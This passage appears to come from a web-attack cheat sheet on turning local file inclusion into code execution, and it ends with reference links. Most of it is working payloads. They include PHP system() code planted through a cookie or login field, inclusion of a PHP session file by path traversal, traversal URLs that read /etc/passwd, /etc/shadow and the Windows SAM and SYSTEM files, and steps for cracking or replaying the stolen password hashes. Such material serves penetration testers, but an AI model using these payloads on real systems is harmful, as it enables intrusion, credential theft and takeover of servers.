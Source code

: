 Set the cookie to `<?php system('cat /etc/passwd');?>`

```
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```

## **LFI to RCE via credentials files** ##

This method require high privileges inside the application in order to read the sensitive files.

### **Windows version** ###

First extract `sam` and `system` files.

```
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
```

Then extract hashes from these files `samdump2 SYSTEM SAM > hashes.txt`, and crack them with `hashcat/john` or replay them using the Pass The Hash technique.

### **Linux version** ###

First extract `/etc/shadow` files.

```
http://example.com/index.php?page=../../../../../../etc/shadow
```

Then crack the hashes inside in order to login via SSH on the machine.

## **References** ##

- [https://www.netsparker.com/blog/web-security/local-file-inclusion-vulnerability/](https://www.netsparker.com/blog/web-security/local-file-inclusion-vulnerability/)

- [https://preetshah90.blogspot.com/2017/03/upcoming-directorypath-traversal-vs-lfi.html](https://preetshah90.blogspot.com/2017/03/upcoming-directorypath-traversal-vs-lfi.html)

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

- [https://medium.com/@asfiyashaikh10/file-path-traversal-and-file-inclusions-7c567da9e226](https://medium.com/@asfiyashaikh10/file-path-traversal-and-file-inclusions-7c567da9e226)

